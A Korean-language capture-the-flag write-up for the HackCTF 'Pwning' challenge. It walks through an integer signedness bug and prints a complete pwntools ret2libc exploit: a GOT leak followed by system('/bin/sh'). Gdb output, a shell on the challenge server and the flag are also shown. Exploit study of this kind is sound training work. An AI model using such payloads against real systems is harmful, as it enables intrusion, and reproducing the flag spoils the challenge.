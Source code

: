 # Pwning

---

우선 `main()`의 코드를 보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  return vuln();
}
```

취약하다고 하는 함수 `vuln()`가 존재한다. 이 함수의 코드를 살펴보자.

```c
int vuln()
{
  char nptr; // [esp+1Ch] [ebp-2Ch]
  int v2; // [esp+3Ch] [ebp-Ch]

  printf("How many bytes do you want me to read? ");
  get_n((int)&nptr, '\x04');
  v2 = atoi(&nptr);
  if ( v2 > 32 )
    return printf("No! That size (%d) is too large!\n", v2);
  printf("Ok, sounds good. Give me %u bytes of data!\n", v2);
  get_n((int)&nptr, v2);
  return printf("You said: %s\n", &nptr);
}
```

`vuln()`에서 보면 몇 bytes만큼 문자열을 입력 받을 것인지를 우선 입력받고 32bytes이하의 크기라면 입력을 받고, 그 이상이라면 return시킨다. 입력받는 공간의 위치가 [ebp-0x2c]이기 때문에 32bytes로는 ret주소를 덮어쓸 수 없다. 때문에 이 문제에서는 취약점이 존재하지 않는 것으로 보일 수도 있다.

하지만, if문을 checking하는 변수인 v2의 자료형을 보면 int형이다. 때문에 -1을 입력한다면 `atoi()`를 거쳐서 underflow로 인해서 2^31-1만큼의 bytes를 입력할 수 있는 것이다. 이를 이용해서 쉘을 따보도록 하자.

---

익스 시나리오는 다음과 같다. `printf()`를 이용해서 `printf()`의 got에 적힌 주소, 즉 `printf()`의 주소를 leak한 다음 offset을 이용해서 `system()`의 위치와 "/bin/sh"문자열의 위치를 구할 것이다. 이후 다시 `vuln()`로 이동하여 얻은 정보를 바탕으로 system("/bin/sh")를 실행시켜 쉘을 따낼 것이다. 이를 위한 정보는 다음과 같다.

**printf\_offset <br>
system\_offset <br>
binsh\_offset <br>
printf\_plt <br>
printf\_got <br>
pop\_ret\_address <br>
vuln\_address**

하나씩 구해보면 다음과 같다.

```gdb
gdb-peda$ p printf
$1 = {<text variable, no debug info>} 0xf7e4d670 <__printf>
gdb-peda$ p system
$2 = {<text variable, no debug info>} 0xf7e3eda0 <__libc_system>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f5fa0b ("/bin/sh")
gdb-peda$ vmmap
Start      End        Perm	Name
0x08048000 0x08049000 r-xp	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0x08049000 0x0804a000 r--p	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0x0804a000 0x0804b000 rw-p	/home/sjy0175/Desktop/HackCTF/Pwnable/20.Pwning/pwning
0xf7e03000 0xf7e04000 rw-p	mapped
0xf7e04000 0xf7fb4000 r-xp	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb4000 0xf7fb6000 r--p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb6000 0xf7fb7000 rw-p	/lib/i386-linux-gnu/libc-2.23.so
0xf7fb7000 0xf7fba000 rw-p	mapped
0xf7fd3000 0xf7fd4000 rw-p	mapped
0xf7fd4000 0xf7fd7000 r--p	[vvar]
0xf7fd7000 0xf7fd9000 r-xp	[vdso]
0xf7fd9000 0xf7ffc000 r-xp	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r--p	/lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rw-p	/lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rw-p	[stack]
gdb-peda$ p 0xf7e4d670-0xf7e04000
$3 = 0x49670
gdb-peda$ p 0xf7e3eda0-0xf7e04000
$4 = 0x3ada0
gdb-peda$ p 0xf7f5fa0b-0xf7e04000
$5 = 0x15ba0b
```

**printf\_offset=0x49670 <br>
system\_offset=0x3ada0 <br>
binsh\_offset=0x15ba0b**

```gdb
gdb-peda$ x/i 0x8048370
   0x8048370 <printf@plt>:	jmp    DWORD PTR ds:0x804a00c
```

**printf\_plt=0x8048370** <br>
**printf\_got=0x804a00c**

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ objdump -d pwning | grep -B2 "ret"
...
 8048676:	5b                   	pop    %ebx
 8048677:	c3                   	ret
```

**pop\_ret\_address=0x8048676**


    gdb-peda$ p vuln
    $1 = {<text variable, no debug info>} 0x804852f <vuln>

**vuln\_address=0x804852f**

이를 토대로 코드를 짜면 다음과 같다.

```python
from pwn import*

p=process('./pwning')
#p=remote('ctf.j0n9hyun.xyz', 3019)

printf_offset=0x49670
system_offset=0x3ada0
binsh_offset=0x15ba0b
printf_plt=0x8048370
printf_got=0x804a00c
pop_ret_address=0x8048676
vuln_address=0x804852f

p.recvuntil('? ')

p.sendline('-1')

p.recvline()

payload='A'*48
payload+=p32(printf_plt)
payload+=p32(pop_ret_address)
payload+=p32(printf_got)
payload+=p32(vuln_address)

p.sendline(payload)

p.recvline()

printf_address=u32(p.recv(4))

log.info("printf_address is "+hex(printf_address))

####

libc_base=printf_address-printf_offset
system_address=libc_base+system_offset
binsh_address=libc_base+binsh_offset

log.info("system_address is "+str(hex(system_address)))

####

p.recvuntil('? ')

p.sendline('-1')

p.recvline()

payload2='A'*48
payload2+=p32(system_address)
payload2+='AAAA'
payload2+=p32(binsh_address)

p.sendline(payload2)

p.interactive()
```

이를 통해서 로컬 익스플로잇에 성공했다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ python ex.py
[+] Starting local process './pwning': pid 5493
[*] printf_address is 0xf7de8670
[*] system_address is 0xf7dd9da0
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa0\x9d��AAAA\x0b\xaa��
$ whoami
sjy0175
```

하지만 서버 익스플로잇은 실패하였다. 그 이유는 libc파일이 달라서 offset값이 정확하지 않기 때문이다. 이는 Gift문제에서와 같이 웹사이트에서 함수 끝 3bytes를 통해서 어떤 libc파일을 쓰는지 알아내어 정확한 offset을 구할 수 있다. 그 offset값은 다음과 같다.

**printf\_offset=0x49020 <br>
system\_offset=0x3a940 <br>
binsh\_offset=0x15902b**

다음과 같이 익스에 성공할 수 있었다.

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/20.Pwning$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3019: Done
[*] printf_address is 0xf7e32020
[*] system_address is 0xf7e23940
[*] Switching to interactive mode
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA@9��AAAA+ ��
$                                                                    whoami
attack
$ cat flag
HackCTF{b34u71ful_5un5h1n3_pwn1n6}
```

**flag: HackCTF{b34u71ful_5un5h1n3_pwn1n6}**
